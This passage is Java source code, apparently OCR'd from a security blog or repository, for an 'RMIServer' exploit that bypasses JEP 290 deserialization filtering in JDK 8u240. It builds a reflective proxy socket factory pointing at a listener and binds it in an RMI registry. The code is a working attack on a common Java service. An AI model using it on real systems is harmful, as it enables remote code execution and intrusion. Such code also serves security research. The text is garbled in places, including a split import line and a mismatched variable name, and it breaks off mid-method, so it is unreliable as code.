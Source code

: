  - RMIServer

```java
package org.h3rmesk1t.jep290.bypass8u240;

import sun.rmi.registry.RegistryImpl_Stub;
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.io.ObjectOu
tput;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.*;
import java.util.Random;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/4 3:31 am
 */
public class RMIServer {

    public static void main(String[] args) throws Exception {

        UnicastRemoteObject payload = getPayload();
        Registry registry = LocateRegistry.getRegistry(6666);
        bindReflection("demo", payload, registry);
    }

    static UnicastRemoteObject getPayload() throws Exception {

        ObjID id = new ObjID(new Random().nextInt());
        TCPEndpoint te = new TCPEndpoint("localhost", 9999);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));

        System.getProperties().put("sun.misc.ProxyGenerator.saveGeneratedFiles", "true");
        RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler(ref);
        RMIServerSocketFactory factory = (RMIServerSocketFactory) Proxy.newProxyInstance(
                handler.getClass().getClassLoader(),
                new Class[]{RMIServerSocketFactory.class, Remote.class},
                Handler
        );

        Constructor<UnicastRemoteObject> constructor = UnicastRemoteObject.class.getDeclaredConstructor();
        constructor.setAccessible(true);
        UnicastRemoteObject unicastRemoteObject = constructor.newInstance();

        Field field_ssf = UnicastRemoteObject.class.getDeclaredField("ssf");
        field_ssf.setAccessible(true);
        field_ssf.set(unicastRemoteObject, factory);

        return unicastRemoteObject;
    }

    static void bindReflection(String name, Object obj, Registry registry) throws Exception {

        Field ref_filed = RemoteObject.class.getDeclaredField("ref");
```